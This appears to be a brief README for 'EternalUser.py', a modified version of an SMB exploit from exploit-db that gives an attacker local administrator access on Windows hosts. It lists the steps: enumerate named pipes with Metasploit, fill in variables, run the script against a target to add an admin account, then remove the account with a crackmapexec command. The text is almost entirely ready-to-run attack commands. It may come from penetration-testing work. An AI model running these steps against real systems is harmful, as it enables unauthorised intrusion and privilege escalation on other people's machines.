 Exploit tweaked from https://www.exploit-db.com/exploits/42315

1. Enumerate pipes
```
msfconsole 
auxiliary/scanner/smb/pipe_auditor
```

2. Edit the 4 blank variables at the beginning of the exploit code 

3. Run to a add new local admin account
```
python2.7 ./EternalUser.py [target] [pipe]
```

4. Remove created local admin once finished
```
crackmapexec smb 192.168.4.29  -u 'z'  -p 'x' --local-auth -x "net user /delete z"
```
